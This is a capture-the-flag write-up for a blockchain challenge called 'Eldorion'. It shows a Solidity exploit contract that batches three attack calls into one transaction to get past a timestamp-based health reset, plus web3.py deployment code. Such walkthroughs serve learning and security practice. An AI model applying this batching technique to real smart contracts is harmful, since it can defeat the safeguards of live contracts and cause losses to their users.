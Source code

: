 From this, we can gather that the **Eldorion** has 300 starting and max health, we can only deal a maximum of 100 damage with each attack, and because of the eternalResilience modifier, every time we send a new transaction the `health` variable gets reset back to 300, since the `block.timestamp` can't be set by us.

In order to bypass this restriction, we have to send 3 concurrent attacks, but if we try using asynchronous function calls each transaction will still be processed individually.

The solution? Deploy our own contract that interacts with the `Eldorion` contract, making our 3 `attack` function calls belong to the same block, therefore having the same timestamp.

The **ExploitAttack.sol** file I used to achieve this:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

import "./Eldorion.sol";

contract ExploitAttack {
    Eldorion public target;

    constructor(address _target) {
        target = Eldorion(_target);
    }

    function tripleAttack() external {
        target.attack(100);
        target.attack(100);
        target.attack(100);
    }
}
```
{: file="ExploitAttack.sol" }

To deploy the contract I made this transaction:

```py
nonce = w3.eth.get_transaction_count(player_address)
transaction = ExploitAttack.constructor(eldorion_address).build_transaction({
    'chainId': w3.eth.chain_id,
    'gas': 2000000,
    'gasPrice': w3.to_wei('10', 'gwei'),
    'nonce': nonce,
})
signed_tx = w3.eth.account.sign_transaction(transaction, private_key=player_key)
tx_hash = w3.eth.send_raw_transaction(signed_tx.raw_transaction)
tx_receipt = w3.eth.wait_for_transaction_receipt(tx_hash)
exploit_addr = tx_receipt.contractAddress
```

And to call the `tripleAttack` function I made this transaction:

```py
nonce += 1
transaction = exploit_contract.functions.tripleAttack().build_transaction({
    'chainId': w3.eth.chain_id,
    'gas': 200000,
    'gasPrice': w3.to_wei('10', 'gwei'),
    'nonce': nonce,
})
signed_txn = w3.eth.account.sign_transaction(transaction, private_key=player_key)
tx_hash = w3.eth.send_raw_transaction(signed_txn.raw_transaction)
tx_receipt = w3.eth.wait_for_transaction_receipt(tx_hash)
```
